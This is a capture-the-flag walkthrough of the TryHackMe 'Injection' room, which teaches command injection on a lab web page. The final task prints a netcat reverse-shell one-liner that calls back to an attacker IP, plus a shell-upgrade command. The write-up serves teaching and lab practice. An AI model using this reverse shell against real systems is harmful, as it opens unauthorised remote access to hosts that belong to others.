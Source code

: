 ```yaml
---
title: "Walk-through of Injection from TryHackMe"
header:
  teaser: /assets/images/2020-06-03-14-47-11.png
toc: true
toc_sticky: true
excerpt_separator:  <!--more-->
categories:
  - CTF
tags:
  - THM
  - CTF
  - injection
  - blind
  - Linux
---
```


## Machine Information

![injection](/assets/images/2020-06-03-14-47-11.png)

Injection is a beginner level room designed to show the dangers of badly coded web pages. Skills required are basic Linux knowledge and an understanding of the layout of its filesystem. Skills learned are exploiting vulnerable webpages to achieve command injection.
<!--more-->

| Details |  |
| --- | --- |
| Hosting Site | [TryHackMe](https://tryhackme.com/) |
| Link To Machine | [THM - Easy - Injection](https://tryhackme.com/room/injection) |
| Machine Release Date | 2nd June 2020 |
| Date I Completed It | 2nd June 2020 |
| Distribution used | Kali 2020.1 – [Release Info](https://www.kali.org/releases/kali-linux-2020-1-release/) |

## Tasks 1 and 2

Task 1 and 2 are introductions and don't require any questions to be answered.

## Task 3 - Blind Injection

### Question 3.1

Ping the box with 10 packets.  What is this command (without IP address)?

A quick look at the help for ping will give you a clue to this answer:

```text
root@kali:~# ping -h
Usage
  ping [options] <destination>

Options:
  <destination>      dns name or ip address
  -a                 use audible ping
  -A                 use adaptive ping
  -B                 sticky source address
  -c <count>         stop after <count> replies
  -D                 print timestamps
  -d                 use SO_DEBUG socket option
  -f                 flood ping
  -h                 print help and exit
  -I <interface>     either interface name or address
  -i <interval>      seconds between sending each packet
  -L                 suppress loopback of multicast packets
  -l <preload>       send <preload> number of packages while waiting replies
  -m <mark>          tag the packets going out
  -M <pmtud opt>     define mtu discovery, can be one of <do|dont|want>
  -n                 no dns name resolution
  -O                 report outstanding replies
  -p <pattern>       contents of padding byte
  -q                 quiet output
  -Q <tclass>        use quality of service <tclass> bits
  -s <size>          use <size> as number of data bytes to be sent
  -S <size>          use <size> as SO_SNDBUF socket option value
  -t <ttl>           define time to live
  -U                 print user-to-user latency
  -v                 verbose output
  -V                 print version and exit
  -w <deadline>      reply wait <deadline> in seconds
  -W <timeout>       time to wait for response
```

### Question 3.2

Try to redirect output to a file on the web server.  What alert message do you see appear?

The explanation for this task talks about the standard Bash operator for redirection, which is >. We need to try redirecting our input on the vulnerable web page to see what we get:

![redirect](/assets/images/2020-06-02-22-52-46.png)

### Question 3.3

Enter "root" into the input and review the alert.  What type of alert do you get?

Simple enough, let's do as instructed, what message do we get back:

![root](/assets/images/2020-06-02-22-54-43.png)

### Question 3.4

Enter "www-data" into the input and review the alert.  What type of alert do you get?

![www-data](/assets/images/2020-06-02-22-55-50.png)

### Question 3.5

Enter your name into the input and review the alert.  What type of alert do you get?

![pencer](/assets/images/2020-06-02-22-56-37.png)

## Task 4 - Active Injection

### Question 4.1

What strange text file is in the website root directory?

Let's check where we are with pwd (present working directory):

![pwd](/assets/images/2020-06-02-23-06-05.png)

We can use ls to list the current directory, but need to try and make sense of the output:

![ls](/assets/images/2020-06-02-23-07-12.png)

### Question 4.2

How many non-root/non-service/non-daemon users are there?

We look in the passwd file to see the users on the system:

![passwd](/assets/images/2020-06-02-23-09-28.png)

We need to make sense of that output and work out the number.

### Question 4.3

What user is this app running as?

Let's check who we are:

![whoami](/assets/images/2020-06-02-23-11-57.png)

### Question 4.4

What is the user's shell set as?

We can go back to the output of the passwd file to see what our shell is set to. We can also use the getent command to make it easier:

![getent](/assets/images/2020-06-02-23-16-10.png)

### Question 4.5

What version of Ubuntu is running?

There's a helpful command called lsb_release you can use here:

![lsb_release](/assets/images/2020-06-03-16-16-02.png)

### Question 4.6

Print out the MOTD.  What favorite beverage is shown?

The way MOTD works has changed over the years, and it's different depending on the distribution. There's a hint for it in the question that will help. Also [here](https://linuxconfig.org/how-to-change-welcome-message-motd-on-ubuntu-18-04-server) is a good explanation for the version of Ubuntu we are dealing with. Here's is how you could do it:

![motd](/assets/images/2020-06-03-13-57-51.png)

## Task 5 - Get The Flag

Time to find the hidden flag. You can do this using the website, but with command injection available it's more fun to get a shell on to the box. Start nc on your attack machine:

```text
root@kali:~# nc -nlvp 1234
listening on [any] 1234 ...
```

Then enter this command on the vulnerable website, changing IP and port as needed:

```text
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.17.195 1234 >/tmp/f
```

![nc](/assets/images/2020-06-02-22-59-08.png)

Back on Kali we see the connection, and have our reverse shell open:

```text
root@kali:~# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.9.17.195] from (UNKNOWN) [10.10.197.105] 35026
/bin/sh: 0: can't access tty; job control turned off
```

First thing is get a proper interactive shell running:

```text
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@injection:/var/www/html$ ^Z
[1]+  Stopped                 nc -nlvp 1234
root@kali:~# stty raw -echo
```

Now we need to think how we will find the hidden flag. I started by looking around the obvious areas, like web site root, user home, but found nothing. So resorted to a guess on what extension the file might have and used **find** to look for it:

```text
www-data@injection:/$ find / -name *.txt 2>/dev/null | more
```

It's a longish list, but look through that a certain file will jump out at you.

All done. See you next time.
